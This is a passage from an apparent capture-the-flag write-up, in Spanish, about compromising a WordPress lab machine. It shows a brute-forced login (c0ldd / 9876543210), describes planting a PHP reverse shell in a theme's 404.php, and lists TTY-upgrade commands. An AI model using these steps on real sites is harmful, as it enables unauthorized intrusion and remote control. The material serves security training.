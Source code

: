 ```bash
  [+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - c0ldd / 9876543210                    
 
```

Accedemos al panel con usuario c0ldd

## Explotación

<aside>
💡 Explotaremos un WordPress

</aside>

### Explotación 1

Una vez autenticados con un usuario, probaremos a editar un plugin con una revershell :

![image.png](<imagenes/image 29.png>)

Editamos el tema “Twenttyfifteen” , el archivo 404.php, con una revershell en php.

La ejecutamos con la ruta:  

http://10.10.112.7/wp-content/themes/twentyfifteen/404.php

Obtenemos la revershell 

Hacemos tratamiento de la tty

```bash
script -c bash /dev/null
cntr+z
stty raw -echo; fg
reset term
export TERM=XTERM
export SHELL=BASH
```
